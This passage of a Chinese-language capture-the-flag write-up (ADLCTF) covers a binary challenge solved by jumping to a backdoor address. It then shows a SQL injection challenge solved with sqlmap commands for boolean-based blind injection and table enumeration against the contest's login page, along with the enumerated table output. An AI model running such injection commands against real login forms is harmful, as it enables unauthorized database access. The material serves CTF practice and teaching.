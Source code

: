 結果直接跳到後門就可以了

![Untitled%2023.png](./img/Untitled%2023.png)

為了避免堆疊異常導致問題，跳到 0x6d7 的位子即可

![Untitled%2024.png](./img/Untitled%2024.png)

```
ADLCTF{M0vAps_13_$Uch_1mp0R74Nt_O^<}
```

## Pika-i (2)

Login Success! 後獲得 flag ，進去之後似乎沒有顯示相關東西可以直接使用 time based 。但是 Sqlmap  可以使用 Boolean-based blind 的方式進行，因為可以知道成功與不成功這種回顯，當中語法可以比較是否為特定值，若能成功則可以看到 flag ，不成功則看不到

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --data 'ctf_username=*+&ctf_password=asdasd' --level 5 --risk 3 --technique B
```

再來透過 sqlmap 列舉表格

```bash
sqlmap -u 'http://ctf.adl.tw:12004/login.php' --tables --data 'ctf_username=*+&ctf_password=asdasd'
```

```
[12 tables]
+-----------------+
| flag1           |
| flag10          |
| flag2           |
| flag3           |
| flag4           |
| flag5           |
| flag6           |
| flag7           |
| flag8           |
| flag9           |
| sqlite_sequence |
| users           |
```
